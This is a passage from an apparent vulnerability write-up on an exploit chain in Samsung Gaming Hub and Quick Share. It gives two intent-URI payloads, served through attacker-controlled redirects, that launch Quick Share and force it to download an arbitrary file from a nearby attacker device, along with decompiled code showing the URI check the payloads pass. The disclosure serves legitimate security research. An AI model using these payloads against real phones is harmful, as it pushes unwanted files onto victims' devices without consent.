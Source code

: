 * Pass the URI to Android's internal Intent parser
* Craft an Intent object based on the URI
* Run `startActivity(Intent)` against the Intent Object

The rest of this exploit chain heavily relies on the ability to launch arbitrary exported Activities due to sending different 302 Redirect URIs.

### It's not a bug, it's a feature – Force the phone to download arbitrary files from a nearby phone

#### Exploit Payload

Two payloads are used for this feature, both of which are sent from the <attackerServer> web server. First, Gaming Hub will be forced to launch the Samsung Quick Share application:

```
Intent;component=com.samsung.android.app.sharelive/.presentation.main.MainActivity
```

The second payload will force Gaming Hub to launch Samsung Quick Share and download an arbitrary file from a nearby attacker controlled device. Note that the nearby attacker controlled device should be sharing a file or folder via Samsung Quick Share's QR Share feature. The <shareCode> value should be replaced via the value shown on the nearby attacker controlled device:

```
intent://qr.quickshare.samsungcloud.com/<shareCode>#Intent;component=com.samsung.android.app.sharelive/com.samsung.android.app.sharelive.presentation.applink.QrCodeAppLinkActivity;scheme=https;end;
```

#### Not an Exploit Details

The application "Quick Share" (`com.samsung.android.app.sharelive` version 13.6.53.6) contains an exported Activity (`com.samsung.android.app.sharelive.presentation.applink.QrCodeAppLinkActivity`).

`QrCodeAppLinkActivity` retrieves the incoming intent and checks the Data URI attached to the Intent object. The Data URI must start with one of the following values:

* `https://qr.quickshare.samsungcloud.com/`
* `https://qr.stg-quickshare.samsungcloud.com/`

If the Data URI does not start with one of the above values, then the Activity finishes.

```
public final class QrCodeAppLinkActivity extends l {
...
    public final void onCreate(Bundle bundle) {
        ...
        String yaydatayay = getIntent().getDataString();
        List list = a.a; // list of valid URL values
        int i10 = 1;
        int i11 = 0;
        if (!(list instanceof Collection) || !list.isEmpty()) {
            Iterator it = list.iterator();
            while (it.hasNext()) {
                if (k.r0(yaydatayay, (String) it.next(), false)) { // checks if yaydatayay starts with one of the URL values
                    z10 = true;
                    break;
                }
            }
        }
        if (!z10) {
            ...
            finish();
            return;
        }
```
